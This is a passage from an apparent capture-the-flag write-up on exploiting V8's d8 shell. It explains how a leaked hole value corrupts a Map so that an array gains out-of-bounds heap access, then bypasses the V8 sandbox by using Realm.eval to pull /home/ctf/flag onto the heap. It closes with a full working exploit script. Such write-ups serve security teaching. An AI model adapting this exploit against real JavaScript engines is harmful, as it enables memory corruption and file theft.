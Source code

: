 The inserted pair overwrites `elements` with the address of the array itself and `length` with 0xffff. This gives us an arbitrary out-of-bounds read and write on the JavaScript heap.

### V8 Sandbox

Recent versions of V8 enable the [V8 sandbox](https://docs.google.com/document/d/1FM4fQmIhEqPG8uGp5o9A-mnPB5BOeScZYpkHjo0KKA8/edit) by default. The goal of the V8 sandbox is to prevent an attacker that has gained arbitrary read and write on the JavaScript heap from corrupting other memory and getting arbitrary code execution in the V8 process. To get the flag we either need to find a bypass for the sandbox. Or we could find a way to get the flag *into* the sandbox instead.

As luck would have it, there is a function in d8 which does exactly that and that the author's patch doesn't remove from the globals. 

d8 exposes a `Realm` object which has a function called `Realm.eval` that can load other JavaScript files. The implementation is [here](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/d8/d8.cc;l=2111;drc=d030a17ad0ce961375e5e8d47cdc3e570b5a8fab) and calls `Shell::ReadSource`, which in turn calls `Shell::ReadFile`. This doesn't directly give us access to the contents of the file that we're loading but it will still load its contents onto the JavaScript heap, where we can read it using our OOB array. This completely bypasses the need for a V8 sandbox escape as long as we know where the flag is located. By reading `/etc/passwd` we can see that there is a user called `ctf` on the server, so we can try `/home/ctf/flag`. By sheer luck our guess was correct and we could use this method to read the flag.

`hitcon{tH3_xPl01t_n0_l0ng3r_wOrk_aF+3r_66c8de2cdac10cad9e622ecededda411b44ac5b3_:((}`

## Final exploit

```js
// Utilities to convert between representations
let f64view = new Float64Array(1);
let u8view = new Uint8Array(f64view.buffer);

let hole = [].hole();
let map = new Map();
map.set(1, 1);
map.set(hole, 1);
map.delete(hole);
map.delete(hole);
map.delete(1);
let a = new Array(1.1, 1.1);

map.set(0x10, -1);
map.set(a, 0xffff);

// Load the contents of the flag into the heap
try {
    Realm.eval(0, '/home/ctf/flag', {type: 'classic'});
} catch (e) {
    console.log(e);
}

// Dump the heap
for (let i = 0; i < 1000; i++) {
    f64view[0] = a[i];
    console.log(String.fromCharCode(...u8view));
}
```


[0]: element count
[1]: deleted element count
[2]: bucket count
[3..(3 + NumberOfBuckets() - 1)]: "hash table",
[3 + NumberOfBuckets()..length]: "data table", an